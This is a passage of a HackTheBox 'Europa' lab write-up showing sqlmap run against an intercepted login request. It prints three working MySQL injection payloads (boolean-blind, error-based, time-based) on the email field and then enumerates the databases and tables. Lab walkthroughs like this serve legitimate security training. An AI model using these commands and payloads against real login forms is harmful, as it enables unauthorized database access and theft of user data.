 ### SQLMap - Second Method

To use `sqlmap`, we have to intercept the login request first using Burp Suite.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl
...
sqlmap identified the following injection point(s) with a total of 348 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=shiro@shiro.com' RLIKE (SELECT (CASE WHEN (3338=3338) THEN 0x736869726f40736869726f2e636f6d ELSE 0x28 END))-- BtER&password=password

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=shiro@shiro.com' AND GTID_SUBSET(CONCAT(0x716b7a7171,(SELECT (ELT(3998=3998,1))),0x716b6a7871),3998)-- scRF&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=shiro@shiro.com' AND (SELECT 3886 FROM (SELECT(SLEEP(5)))QrgU)-- ESHj&password=password
---
...
```

>   Note: we use `force-ssl` because there is no `http`.

It looks like `sqlmap` found 3 ways to bypass the login.

Now, lets ask `sqlmap` to list out the databases.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl --dbs
...
available databases [2]:
[*] admin
[*] information_schema
...
```

Now, lets list the admin table.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# sqlmap -r login_request.txt --batch --force-ssl -D admin --tables
...
Database: admin
[1 table]
+-------+
| users |
+-------+
...
```
